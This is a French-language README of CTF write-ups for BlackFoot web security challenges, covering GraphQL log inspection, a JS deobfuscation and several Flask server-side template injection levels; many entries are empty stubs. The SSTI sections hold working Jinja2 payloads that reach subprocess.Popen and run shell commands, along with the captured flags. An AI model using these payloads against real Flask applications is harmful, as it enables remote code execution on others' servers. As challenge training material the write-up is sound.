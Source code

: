 # WebSecurity

Sujet du repo: [Resolutions des defis de securité web créé par BlackFoot](https://secu-web.blackfoot.dev)

## Open Field

### :x: Wordstress


## Graphql

### :white_circle: Confessions

Nom de la categorie: GraphQL -> inspection des requettes effectué.  
Le schema graphql est public.  
Exposition de la query **requestLog**, on peut y trouver la liste des requettes effectués et voir les hash demandés [cf DumpFile(/Graphql-Confessions/RequestLog.dump.json)](/Graphql-Confessions/RequestLog.dump.json).  
Dans [/Graphql-Confessions/RequestLog.23-05.json](/Graphql-Confessions/RequestLog.23-05.json) on trouve les requetes qui on été fait avant le debut du cours, le 23/05 (preparation du projet ?).  
Dans [/Graphql-Confessions/Hash.23-05.txt](/Graphql-Confessions/Hash.23-05.txt) on trouve la liste des hashs extraits des logs du 23/05.  
Apres inspection via la query **confession**, ils ont tous pour titre Flag, on peut donc supposer que le flag se trouve dans le messages de ces confessions.  
  
On a essayé:
  - [dcode sha256](https://www.dcode.fr/sha256-hash): rien trouvé
  - base64 to ascii: invalid
  - hex to ascii: invalid


## SSTI

### :heavy_check_mark: SSTI 1

Le nom de la category est SSTI (Server Side Template Injection).  
Le titre de la page est Flaaaasque, on peut donc conclure que le moteur utilisé est Flask.  
Apres test, on peut utiliser `{{8*8}}` pour tester et faire un calcul.  
En utilisant `{{config.items()}}` on peut obtenir la config du server.  
cf [/SSTI/SSTI_1/config.dump.txt](/SSTI/SSTI_1/config.dump.txt) un dump de la config du server.  
Flag trouvé: `('FLAG', 'BFS{WelC0m3_To_Th1s_F1rSt_PyTh0n_Vuln3rab1l1ty}')`

### :heavy_check_mark: SSTI 2

Aussi du Flask, donc on peut utiliser `{{8*8}}`.  
En utilisant `{{config.items()}}` on peut obtenir la config du server [cf config dump](/SSTI/SSTI_2/config.dump.txt) mais le flag ne s'y trouve pas.  
En utilisant `{{''.__class__.__mro__ [1].__subclasses__()}}` on peut recuperer la liste de class disponnibles [cf class dump](/SSTI/SSTI_2/class.dump.txt).  
Utiliser `{{ ''.__class__.__mro__ [1].__subclasses__()[268]}}` permet de recuperer la class Popen.  
Utiliser la Popen nous permet d'utiliser cette commande: `{{ ''.__class__.__mro__ [1].__subclasses__()[268]('ls', shell=True,stdout=-1).communicate()}}`, ce qui nous renvoi `(b'app.py\nconfig.py\nflag.txt\nindex.html\n', None)`.  
On peut voir un fichier appelé flag.txt, pour l'afficher, on peut utiliser `{{ ''.__class__.__mro__ [1].__subclasses__()[268]('cat flag.txt', shell=True,stdout=-1).communicate()}}`, ce qui nous donne: `(b'BFS{w0w_1_C4n_R3ad_Fl4g_W1th_Pyth0n_SST1}', None)`.  
On a donc trouvé le flag `BFS{w0w_1_C4n_R3ad_Fl4g_W1th_Pyth0n_SST1}`

### :white_circle: SSTI 3

Encore du Flask, on peut toujour utiliser `{{8*8}}`.  
En utilisant `{{config.items()}}` on peut obtenir la config du server [cf config dump](/SSTI/SSTI_3/config.dump.txt) mais le flag ne s'y trouve pas non plus.  
En utilisant `{{''.__class__.__mro__ [1].__subclasses__()}}` on peut recuperer la liste de class disponnibles [cf class dump](/SSTI/SSTI_3/class.dump.txt).  
Utiliser `{{ ''.__class__.__mro__ [1].__subclasses__()[409]}}` permet de recuperer la class Popen.  
Utiliser la Popen nous permet d'utiliser cette commande: `{{ ''.__class__.__mro__ [1].__subclasses__()[409]('ls', shell=True,stdout=-1).communicate()}}`, ce qui nous renvoi `(b'app.py\nconfig.py\ngetFlag\nindex.html\n', None)`.  
Utiliser la commande `{{''.__class__.__mro__ [1].__subclasses__()[409]('cat getFlag', shell=True,stdout=-1).communicate()}}` nous donne le contenue du fichier [cf: getFlag](/SSTI/SSTI_3/getFlag).  
Le fichier [getFlag](/SSTI/SSTI_3/getFlag) semble etre un executable mais il ne veux pas se lancer.


### :white_circle: SSTI 4

Encore du Flask, on peut toujour utiliser `{{8*8}}`.  
En utilisant `{{config.items()}}` on peut obtenir la config du server [cf config dump](/SSTI/SSTI_4/config.dump.txt) mais le flag ne s'y trouve pas non plus.  
En utilisant `{{''.__class__.__mro__ [1].__subclasses__()}}` on peut recuperer la liste de class disponnibles [cf class dump](/SSTI/SSTI_4/class.dump.txt).  
Utiliser `{{ ''.__class__.__mro__ [1].__subclasses__()[180]}}` permet de recuperer la class Popen.  
Utiliser la Popen nous permet d'utiliser cette commande: `{{ ''.__class__.__mro__ [1].__subclasses__()[180]('ls', shell=True,stdout=-1).communicate()}}`, ce qui nous renvoi `(b'Courage bunz <3\nFlag.txt\napp.py\nconfig.py\ndalek.py\ndocker-compose.yml\nindex.html\nindex.html.bak\n', None)`.  
Utiliser `{{ ''.__class__.__mro__ [1].__subclasses__()[180]('cat Flag.txt', shell=True,stdout=-1).communicate()}}` nous montre que le fichier Flag.txt est vide.  
Le fichier [docker-compose.yml](/SSTI/SSTI_4/docker-compose.yml) n'est pas vide.  

Suposition: Il est mentioné dans le docker-compose que le port n'a pas été fermé. Je suppose qu'il est possible de passer par le network de docker pour passer de la vm flask a la machine qui se trouve deriere et d'y trouver quelque chose

## SSRF

### :x: SSRF 1


## Obfuscation

### :x: OBF 100

### :x: SCRIPT_KIDDING


## XXE

### :x: XXE 1

### :x: XXE 2


## XSS

### :x: Whatsup

### :x: Whatsup2


## JWT

### :x: Mythique 1

### :x: Mythique 2

### :x: Mythique 3


## SQLI

### :x: Potionseller

### :x: Potionseller 2


## IFI

### :x: noprotection

### :x: filters

### :x: extprotect

### :x: remote


## Auth

### :x: Auth 50

### :x: Auth 100

### :x: Auth 200


## JS

### :x: b64js

### :heavy_check_mark: JS200

Le nom de la categorie est JS, on peut donc supposer que le solution se trouve dans le code de la page.  
Le code source de la page a été extrait dans le fichier [index.html](./JS/JS200/index.html).  
Dans ce fichier, on peut voir une variable appelé `flag` non lisible. On peut aussi voir un algorithm pour voir le vrai flag.  
Cet algorithm a été déplacer dans le fichier [getFlag.js](./JS/JS200/getFlag.js) puis inversé pour obtenir le vrai flag

```
Commande: node ./JS/JS200/getFlag.js
Flag: JCVD-approves-this-challenge
```